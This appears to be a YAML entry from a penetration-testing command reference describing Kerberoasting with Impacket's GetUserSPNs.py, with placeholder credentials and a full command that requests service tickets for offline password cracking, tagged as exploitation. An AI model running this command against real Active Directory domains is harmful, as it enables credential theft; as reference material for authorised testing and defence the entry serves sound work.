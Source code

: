 ```yaml
---
description: |
  Impacket's GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

